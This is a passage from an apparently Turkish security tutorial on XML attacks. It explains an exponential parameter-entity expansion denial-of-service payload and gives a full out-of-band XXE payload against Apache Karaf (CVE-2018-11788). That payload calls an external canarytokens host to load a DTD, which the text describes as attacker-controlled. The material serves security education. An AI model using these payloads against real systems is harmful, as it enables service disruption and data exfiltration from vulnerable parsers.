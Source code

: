 * `%pe_3`, `%pe_2`’yi iki kez çağırır ve arasına bir yorum daha koyar.

Bu şekilde **üstel olarak büyüyen** bir yapı oluşur:

|Entity|Açıklama|
|---|---|
|`%pe_1`|1 adet `<!-- -->`|
|`%pe_2`|2 × `%pe_1` = 2 yorum|
|`%pe_3`|2 × `%pe_2` = 4 yorum|
|`%pe_4`|2 × `%pe_3` = 8 yorum|
|…|ve böyle devam ederse **üstel artar**|

```
  %pe_4;
]>
<r/>
```

`%pe_4;` çağrıldığında, önce `%pe_3` çözülür, sonra `%pe_2`, sonra `%pe_1`... Böylece parser sürekli çözümleme yapmak zorunda kalır.

- `libxml2` (özellikle eski versiyonları) bu saldırıya karşı savunmasız olabilir.
- Java’daki bazı XML parser’lar varsayılan olarak parametre entity’lerini desteklemez ama yapılandırılırsa etkilenebilir.
- `Python lxml` ve `PHP libxml` gibi bazı popüler kütüphaneler savunmasızdır — eğer `resolve_entities=True` gibi seçenekler kullanılırsa.

XML kurallarına göre bir root element zorunludur. `<r/>` bu görevi yerine getiriyor.

### 99-Apache Karaf ile XXE OOB

CVE-2018-11788 sürümleri etkiliyor:

- Apache Karaf **≤ 4.2.1**
- Apache Karaf **≤ 4.1.6**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com">
  %dtd;
]>
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
  <feature name="deployer" version="2.0" install="auto">
  </feature>
</features>
```

- Bu satır, **bir parametre entity’si olarak `dtd`’yi tanımlar**.
- `dtd`, `http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com` adresinden çekilir.
- Bu, saldırganın kontrolünde olan bir DTD dosyası olmalıdır.
- Ya da [CanaryTokens](https://canarytokens.org/) gibi sistemlerle sadece bir **istek yapıldığını loglamak için** kullanılır (veri sızmadan, erişim tespiti yapılır).
